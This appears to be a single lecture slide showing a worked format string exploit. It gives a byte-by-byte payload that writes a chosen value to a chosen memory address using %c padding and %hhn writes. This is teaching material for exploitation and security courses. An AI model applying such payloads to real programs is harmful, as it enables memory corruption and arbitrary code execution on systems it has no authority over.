

# Example
Try to write value 0x6a686664 to 0x08045566
Payload will look like this
\x66\x55\x04\x08\x67\x55\x04\x08	// 8 characters
\x68\x55\x04\x08\x69\x55\x04\x08	// 8 characters
%84c%4$hhn
%2c%5$hhn
%2c%6$hhn
%2c%7$hhn